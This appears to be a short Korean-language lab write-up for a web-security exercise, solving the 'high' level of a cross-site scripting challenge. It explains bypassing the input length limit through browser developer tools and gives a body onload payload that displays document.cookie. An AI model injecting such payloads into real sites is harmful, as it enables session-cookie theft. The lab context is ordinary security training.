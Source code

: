 * <img src="https://github.com/adakim3297/GBC-web-1/blob/main/XSS%20high.png?raw=true" width="400" height="350"/>

    입력할 수 있는 크기가 제한되있어서 개발자 도구를 통해 50으로 사이즈로 바꿔 작성하면 된다.
  
  {high 답} 
  
  body onload="alert(document.cookie)" 
  
  {처음과 끝에 <>가 있습니다.}

* <img src="https://github.com/adakim3297/GBC-web-1/blob/main/high%20%EA%B2%B0%EA%B3%BC.png?raw=true" width="400" height="350"/>





